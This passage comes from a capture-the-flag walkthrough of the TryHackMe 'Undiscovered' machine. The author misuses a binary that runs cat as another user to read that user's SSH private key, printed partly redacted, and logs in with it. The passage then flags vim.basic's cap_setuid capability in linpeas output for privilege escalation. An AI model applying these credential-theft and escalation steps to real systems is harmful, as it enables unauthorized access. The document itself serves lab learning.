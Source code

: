 The binary is running `cat` command. Btw, it is running `admin.sh` at some point, but it won't take us anywhere (I have tried). I randomly entered `/etc/passwd` and look at this:

~~~
william@undiscovered:~$ ./script /etc/passwd
/bin/cat: /home/leonard//etc/passwd: No such file or directory
~~~

It is running `cat` in `leonard`'s home directory. I decided to see if there is a private key and fortunately threr is:

~~~
william@undiscovered:~$ ./script .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAwErxDUHfYLbJ6rU+r4oXKdIYzPacNjjZlKwQqK1I4JE93rJQ
HEhQlurt1Zd22HX2zBDqkKfvxSxLthhhArNLkm0k+VRdcdnXwCiQqUmAmzpse9df

[REDACTED]

bFHPJS+V3mwL8VT0yI+XWXyFHhkyhYifT7ZOMb36Zht8yLco9Af/xWnlZSKeJ5Rs
LsoGYJon+AJcw9rQaivUe+1DhaMytKnWEv/rkLWRIaiS+c9R538=
-----END RSA PRIVATE KEY-----
~~~

I copied and pasted the private key to my machine and set its permission to 600 and used it to login as `leonard` via ssh:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Undiscovered/files]
└─$ chmod 600 leonard_rsa 
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Undiscovered/files]
└─$ ssh -i leonard_rsa leonard@<MACHINE IP>
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-189-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 packages can be updated.
0 updates are security updates.


Last login: Fri Sep  4 22:57:43 2020 from 192.168.68.129
leonard@undiscovered:~$ id
uid=1002(leonard) gid=1002(leonard) groups=1002(leonard),3004(developer)
~~~

## Privilege Escalation

I checked many things and I was stuck. I decided to take another look at linpeas output and this took my attention:

~~~
Files with capabilities (limited to 50):
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/vim.basic = cap_setuid+ep   <---------
~~~
